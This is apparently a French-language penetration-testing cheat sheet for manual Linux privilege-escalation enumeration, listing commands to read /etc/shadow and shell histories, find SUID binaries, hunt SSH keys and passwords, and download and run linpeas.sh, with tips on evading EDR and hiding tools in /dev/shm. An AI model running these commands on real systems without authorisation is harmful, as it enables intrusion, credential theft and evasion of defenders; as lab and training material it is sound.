

Cette documentation détaille les méthodes d'énumération manuelle pour l'escalade de privilèges sur un système Linux.



> [!warning] Attention aux faux positifs avec grep -R sur /
> L'utilisation de commandes récursives sur la racine peut générer un volume important de données inutiles et impacter la stabilité du système.

> [!tip] Toujours privilégier l'énumération manuelle avant les scripts automatiques pour éviter le bruit
> L'exécution de scripts comme **linpeas.sh** peut être détectée par les solutions EDR ou les administrateurs.

> [!note] Vérifier les permissions des fichiers trouvés avant toute lecture
> L'accès à certains fichiers sensibles peut déclencher des alertes de sécurité.

> [!danger] Le transfert de fichiers doit être discret (éviter /tmp si possible)
> Privilégier des répertoires masqués ou des zones mémoires comme `/dev/shm` pour le stockage temporaire d'outils.

## Informations utilisateur et système

```bash
whoami        # Utilisateur courant
id            # UID, GID et groupes
hostname      # Nom de la machine
who           # Qui est connecté ?
who -a        # Sessions, runlevel, reboot, etc.
cat /etc/os-release     # Détails de l'OS
uname -a                # Version complète du noyau
cat /proc/version       # Version du noyau
```

## Réseau et interfaces

```bash
ip a                    # Interfaces IP
ip r                    # Table de routage
arp -a                  # Table ARP
cat /etc/resolv.conf    # DNS utilisés
cat /etc/hosts          # Résolution locale
```

## Défenses actives et services

```bash
which apparmor_status   # AppArmor
sestatus                # SELinux
ufw status              # Uncomplicated Firewall
systemctl status fail2ban.service
ps aux --forest         # Processus en cours
netstat -tulnp          # Ports en écoute
ss -tulnp               # Ports en écoute (alternative)
```

## Environnement et utilisateurs

```bash
echo $PATH              # Variables d'environnement
env                     # Variables d'environnement complètes
cat /etc/passwd | cut -d: -f1 # Liste des utilisateurs
cat /etc/group          # Liste des groupes
getent group sudo       # Membres du groupe sudo
cat /etc/shells         # Shells valides
grep "/bin/.*sh" /etc/passwd
```

## Matériel et systèmes de fichiers

```bash
lscpu                   # Informations CPU
free -h                 # Mémoire vive
df -h                   # Partitions montées
lsblk                   # Disques et partitions
cat /etc/fstab          # Configuration des montages
mount | column -t       # Liste des montages
```

## Recherche de fichiers et configuration

```bash
find / -type f -name ".*" 2>/dev/null           # Fichiers cachés
find / -type d -name ".*" 2>/dev/null           # Répertoires cachés
find / -name "*.conf" -o -name "*.config" -o -name "*.bak" 2>/dev/null
find / -name "*.log" -o -name "*.txt" 2>/dev/null
cat /home/*/.bash_history 2>/dev/null
cat /etc/shadow 2>/dev/null                     # Accès restreint
find / -type f -iname "flag.txt" 2>/dev/null
find / -type f -exec grep -i "HTB" {} \; 2>/dev/null
```

## Sudo et automatisation

```bash
sudo -l                 # Droits sudo
sudo -V                 # Version de sudo
```

Pour l'utilisation de **linpeas.sh** :

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh
```

## SUID/SGID Binaries

Recherche des binaires avec le bit SUID ou SGID positionné :

```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
```

Voir aussi : [[Linux Privilege Escalation - SUID & Capabilities]]

## Linux Capabilities

Vérification des capacités (capabilities) assignées aux binaires :

```bash
getcap -r / 2>/dev/null
```

Voir aussi : [[Linux Privilege Escalation - SUID & Capabilities]]

## NFS Shares (no_root_squash)

Vérification des exports NFS pour une mauvaise configuration `no_root_squash` :

```bash
cat /etc/exports
showmount -e 127.0.0.1
```

## Kernel Exploits (Dirty Pipe, PwnKit, etc.)

Vérification de la version du noyau pour identifier des vulnérabilités connues (CVE) :

```bash
uname -a
cat /etc/issue
# Comparer avec des bases de données comme searchsploit ou exploit-db
```

Voir aussi : [[Linux Privilege Escalation - Kernel Exploits]]

## Writable PATH directories

Vérification des répertoires inscriptibles dans la variable `$PATH` :

```bash
echo $PATH | tr ':' '\n' | xargs -I {} find {} -maxdepth 0 -writable 2>/dev/null
```

## Docker/Container breakout

Vérification de l'appartenance au groupe docker ou présence de sockets :

```bash
id | grep docker
ls -la /var/run/docker.sock
```

## Historique et tâches planifiées

```bash
lastlog                 # Historique de connexion
w                       # Utilisateurs connectés
cat ~/.bash_history     # Historique utilisateur
history                 # Historique session
find / -type f \( -name *_history -o -name *_hist \) 2>/dev/null
ls -la /etc/cron.*      # Cron jobs
cat /etc/crontab        # Cron jobs système
crontab -l              # Cron jobs utilisateur
```

## Binaires et packages

```bash
apt list --installed | tr "/" " " | cut -d" " -f1,3 | sed 's/[0-9]://g' > pkgs.txt
ls /bin /usr/bin /sbin /usr/sbin
strace ping -c1 10.129.112.20 # Suivi d'appels système
```

## GTFOBins Offline

Préparation sur machine locale :
```bash
curl -s https://gtfobins.github.io/ | html2text | cut -d" " -f1 | sed '/^[[:space:]]*$/d' > gtfo_bins.txt
```

Comparaison sur cible :
```bash
for i in $(cat gtfo_bins.txt); do
  if which $i >/dev/null 2>&1; then
    echo "GTFO candidate found: $i"
  fi
done
```

## Credential Hunting

Recherche de fichiers sensibles :
```bash
find / -type f \( -iname "*.conf" -o -iname "*.config" -o -iname "*.xml" -o -iname "*.ini" -o -iname "*.yml" -o -iname "*.env" -o -iname "*.bak" -o -iname "*.sh" \) 2>/dev/null
```

Recherche de clés SSH :
```bash
find / -name id_rsa 2>/dev/null
find / -name *.pem 2>/dev/null
cat ~/.ssh/known_hosts
```

Recherche par mots-clés :
```bash
grep -iR 'password\|passwd\|credentials\|secret' / 2>/dev/null
```

Recherche dans les répertoires web :
```bash
ls -laR /var/www 2>/dev/null | grep -i "config\|pass\|cred"
```

Voir aussi : [[Credential Harvesting]], [[Pivoting]]